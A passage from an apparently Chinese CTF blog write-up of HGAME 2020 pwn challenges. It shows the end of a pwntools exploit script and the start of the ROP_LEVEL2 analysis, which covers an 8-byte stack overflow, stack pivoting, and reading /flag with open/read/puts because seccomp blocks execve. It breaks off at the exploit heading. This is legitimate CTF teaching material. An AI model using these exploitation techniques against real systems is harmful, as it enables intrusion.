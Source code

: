 ```python

ru('Terrorist Win\n')
addr = u64(rc(6).ljust(8,'\0'))
log.hexdump(addr)
info_addr("ret",addr)

ru('~~！~？~…____\n')

sl('')

p.interactive()
```



# Week3

week3开题的时候...我正在看CCTV-8直播的绝代双骄，古龙的武侠小说写的真是精彩呀，新版的绝代双骄电视剧的还原度很高，而且排在春节黄金档，焉能不看！于是week3只做了一道题，没想到还拿了2血，剩下的都是堆的题，不会啊...

## ROP_LEVEL2

 - 题目描述：-
 - 题目地址：[ROP](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week3_1/ROP)
 - 考察点：ROP攻击、栈迁移、`seccomp`
 - 难度：中等
 - 分值：200
 - 完成人数：27

### 0x0 背景姿势

这题和week1的ROP_LEVEL0差不多，但是开启了`seccomp`，且栈溢出只有8字节

`seccomp`用于关闭不必要的系统调用，比如`SYSCALL execve` 

### 0x1 漏洞分析

- 栈溢出8字节，需要栈迁移

- 用`seccomp`关闭了`SYSCALL execve` 

  ```c
    v0 = seccomp_init(0x7FFF0000LL);
    seccomp_rule_add(v0, 0LL, 0x3BLL, 0LL);
    seccomp_load(v0);
  ```

- 不能用`system('/bin/sh')`，于是用`open+read+puts`打开`/flag`文件并打印

  - `open('/flag',0,0x100)`
  - `read(4,bss_base,0x100)`
  - `puts(bss_base)`

### 0x2 exp
